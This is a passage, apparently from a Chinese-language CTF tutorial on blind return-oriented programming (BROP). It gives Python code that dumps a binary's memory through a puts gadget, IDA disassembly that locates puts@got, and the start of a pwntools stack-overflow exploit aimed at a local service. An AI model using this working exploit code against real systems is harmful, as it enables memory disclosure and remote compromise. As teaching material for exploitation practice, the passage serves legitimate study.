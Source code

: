 ```python
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = get_puts_plt(length, rdi_ret, stop_gadget)
puts_plt = 0x400560
addr = 0x400000
result = ""
while addr < 0x401000:
    print hex(addr)
    data = leak(length, rdi_ret, puts_plt, addr, stop_gadget)
    if data is None:
        continue
    else:
        result += data
    addr += len(data)
with open('code', 'wb') as f:
    f.write(result)
```

最後，我們將泄露的內容寫到文件裏。需要注意的是如果泄露出來的是“”,那說明我們遇到了'\x00'，因爲puts是輸出字符串，字符串是以'\x00'爲終止符的。之後利用ida打開binary模式，首先在edit->segments->rebase program 將程序的基地址改爲0x400000，然後找到偏移0x560處，如下

```asm
seg000:0000000000400560                 db 0FFh
seg000:0000000000400561                 db  25h ; %
seg000:0000000000400562                 db 0B2h ;
seg000:0000000000400563                 db  0Ah
seg000:0000000000400564                 db  20h
seg000:0000000000400565                 db    0
```

然後按下c,將此處的數據轉換爲彙編指令，如下

```asm
seg000:0000000000400560 ; ---------------------------------------------------------------------------
seg000:0000000000400560                 jmp     qword ptr cs:601018h
seg000:0000000000400566 ; ---------------------------------------------------------------------------
seg000:0000000000400566                 push    0
seg000:000000000040056B                 jmp     loc_400550
seg000:000000000040056B ; ---------------------------------------------------------------------------
```

這說明，puts@got的地址爲0x601018。

#### 程序利用

```python
##length = getbufferflow_length()
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x4006b6
##brop_gadget = find_brop_gadget(length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = get_puts_addr(length, rdi_ret, stop_gadget)
puts_plt = 0x400560
##leakfunction(length, rdi_ret, puts_plt, stop_gadget)
puts_got = 0x601018

sh = remote('127.0.0.1', 9999)
sh.recvuntil('password?\n')
payload = 'a' * length + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(
    stop_gadget)
sh.sendline(payload)
data = sh.recvuntil('\nWelCome', drop=True)
```